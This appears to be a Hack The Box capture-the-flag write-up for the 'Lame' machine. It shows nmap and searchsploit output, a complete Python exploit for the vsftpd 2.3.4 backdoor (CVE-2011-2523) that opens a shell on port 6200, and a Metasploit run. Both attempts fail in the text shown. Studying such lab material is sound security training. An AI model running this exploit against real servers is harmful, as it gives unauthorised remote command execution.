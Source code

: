 # <center>Lame</center>
<p align='center'><img src="../.medias/lame/lame_logo.png"></p>

Okay friends, today we will solve an easy labeled linux based HTB machine `Lame`.

## Initial step

- connect to htb vpn and spawn the machine.
  
## Scanning and Enumeration

### nmap scan
- `nmap -sC -sV 10.10.10.3 -Pn`
```bash
┌──(cyb3ritic㉿kali)-[~]
└─$ nmap -sC -sV 10.10.10.3 -Pn 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-06 21:00 IST
Nmap scan report for 10.10.10.3
Host is up (0.23s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h00m23s, deviation: 2h49m45s, median: 21s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2024-08-06T11:31:30-04:00
|_smb2-time: Protocol negotiation failed (SMB2)

```

**Important things to notice:**
- ftp is running on port 21. 
    - Anonymous login is allowed.
    - vsFTPd 2.3.4 
- ssh on port 22 (as usual)
- samba on 139 and 445
    - smbd 3.0.20-Debian

I would always keep ssh on the bottom of my list to enumerate because generally you don't get vulnerable points in SSH. So let's begin with ftp(port 21).

We have anonymous login enabled. Let's check it:



```bash
┌──(cyb3ritic㉿kali)-[~/Downloads]
└─$ searchsploit vsFTPd 2.3.4                          
----------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                               |  Path
----------------------------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                                    | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                       | unix/remote/17491.rb
----------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Here we got two exploits for the given ftp version, let's see what gets us to the treasure...

Just googling on the first exploit, I got this exploit:
```python
# Exploit Title: vsftpd 2.3.4 - Backdoor Command Execution
# Date: 9-04-2021
# Exploit Author: HerculesRD
# Software Link: http://www.linuxfromscratch.org/~thomasp/blfs-book-xsl/server/vsftpd.html
# Version: vsftpd 2.3.4
# Tested on: debian
# CVE : CVE-2011-2523

#!/usr/bin/python3   
                                                           
from telnetlib import Telnet 
import argparse
from signal import signal, SIGINT
from sys import exit

def handler(signal_received, frame):
    # Handle any cleanup here
    print('   [+]Exiting...')
    exit(0)

signal(SIGINT, handler)                           
parser=argparse.ArgumentParser()        
parser.add_argument("host", help="input the address of the vulnerable host", type=str)
args = parser.parse_args()       
host = args.host                        
portFTP = 21 #if necessary edit this line

user="USER nergal:)"
password="PASS pass"

tn=Telnet(host, portFTP)
tn.read_until(b"(vsFTPd 2.3.4)") #if necessary, edit this line
tn.write(user.encode('ascii') + b"\n")
tn.read_until(b"password.") #if necessary, edit this line
tn.write(password.encode('ascii') + b"\n")

tn2=Telnet(host, 6200)
print('Success, shell opened')
print('Send `exit` to quit shell')
tn2.interact()
```

Let's try to run this exploit. And a badluck, it didn't work.🥲
But no worries, we still got one exploit left in our quiever. Let's give it a try.

```bash
msf6 > search vsftpd 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor

msf6 > use exploit/unix/ftp/vsftpd_234_backdoor 
[*] Using configured payload cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

Nope, couldn't catch a fish.